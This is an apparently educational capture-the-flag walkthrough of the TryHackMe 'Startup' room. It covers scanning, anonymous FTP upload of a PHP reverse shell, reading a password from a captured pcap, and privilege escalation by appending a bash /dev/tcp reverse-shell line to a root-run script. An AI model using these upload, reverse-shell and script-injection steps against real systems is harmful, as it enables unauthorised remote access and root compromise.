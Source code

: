 # [Startup TryHackMe Writeup/Walkthrough][1]
Abuse traditional vulnerabilities via untraditional means.


#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -sC -Pn <IP>`

```
Starting Nmap 7.91 ( https://nmap.org )
Nmap scan report for 10.10.200.192
Host is up (0.076s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.8.150.100
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed.
Nmap done: 1 IP address (1 host up) scanned in 11.32 seconds
```

Looks like we have three ports open `21, 22, 80`.

We have `ftp` anonymous login allowed and we see there are two files and a directory with read/write/execute permission.

![FTP Login](images/ftp_login.png)

Get the `important.jpg` and `notice.txt` into our PC and check what it says.

```
ftp> get important.jpg
local: important.jpg remote: important.jpg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for important.jpg (251631 bytes).
226 Transfer complete.
251631 bytes received in 0.30 secs (824.6558 kB/s)

ftp> get notice.txt
local: notice.txt remote: notice.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for notice.txt (208 bytes).
226 Transfer complete.
208 bytes received in 0.00 secs (906.8080 kB/s)
```

Now that we have the file, check the content of `notice.txt` file.

> Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I don't know who it is, but Maya is looking pretty sus.

Hmm, interesting so this share is accessible from via website. Looks like we have a username `maya`.

I did a `gobuster` scan. CMD -> `gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt`

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                   http://10.10.200.192
[+] Method:                GET
[+] Threads:               10
[+] Wordlist:              /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes: 404
[+] User Agent:            gobuster/3.1.0
[+] Timeout:               10s
===============================================================
2021/05/24 16:44:03 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/files                (Status: 301) [Size: 314]
/index.html           (Status: 200) [Size: 808]
/server-status        (Status: 403) [Size: 278]
===============================================================
```

Seems like the `files` folder is similar to the `FTP` anonymous login from the website and it has execute, write permission as well.

We can put the [php-reverse-shell.php][3] into this folder and execute it via website. Just change the `$ip` to your TryHackMe's IP and `$port` to `4444` or you can leave as it is. Once you make the change `put` this file into the server.

![SHELL FTP](images/shell_ftp.png)

Once done with this, start a `netcat` listener. CMD -> `nc -lvnp 4444`

Go to the website `http://<IP>/file/ftp` and click on the file you copied into the server. You will have a reverse connection established.

![Got Access](images/got_access.png)

First things first, let's make this shell a bit stable.

```
1. python3 -c 'import pty;pty.spwan("/bin/bash")'
2. Ctrl + Z
3. stty raw -echo; fg
```

![Shell Stable](images/shell_stable.png)

We got the `recipe.txt` in the root directory.

![Recipe](images/recipe.png)

There is a directory called `incidents`. Let's get the file `suspicious.pcapng` back into our system and check the content.

We can start a Python Server using `python3 -m http.server` and get the file into your PC by visiting `http://<IP>:8000`.

![Content of Incidents](images/incidents.png)

*Alternative method:*

- Client: `nc -lvnp 1234 > sus.pcapng`
- Server: `nc -lvnp <YOUR_IP> 1234 < suspicious.pcapng`

Once you have the file, open it with Wireshark.

Go to File > Export > Objects > HTTP

![Export Objects](images/export_objects.png)

A reverse shell was initiated on the port `4444`. So we can filter the packets using `tcp.port == 4444`.

Right-Click on a packet > Follow > TCP Streams.

![TCP Streams](images/tcp_stream.png)

Seems like we have a password.

![Lennie's Password](images/lennie_password.png)

We can get the `user_flag` from here.

![User Flag](images/user_flag.png)

### Privilege Escalation

There is folder called `scripts`. Let's check the content.

![Scripts Planner](images/scripts_planner.png)

This file is executing another file `/etc/print.sh`. Let's check the content.

![Cat Planner](images/cat_planer.png)

This file has `read-write-execute` permission. So we can add the bash one linear reverse shell. We will append it to the file -> `echo "bash -i >& /dev/tcp/<YOUR_IP>/1234 0>&1" >> /etc/print.sh`

![Bash Scripts](images/bash_script.png)

Start a listener -> `nc -lvnp 1234` and wait for a while, you will have a reverse connection.

![No Comment](images/no_connect.png)


*Alternative Method:*

You could just add a copy script instead of bash one linear. CMD -> `echo " cp /root/* /home/lennie; chmod 777 /home/lennie/* " >> /etc/print.sh`

Now, we have the root access. You know what to do next :stuck_out_tongue_winking_eye:

![Root Flag](images/root_flag.png)

[1]: https://tryhackme.com/room/startup
[2]: https://blog.hackhunt.in/search/label/Nmap
[3]: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
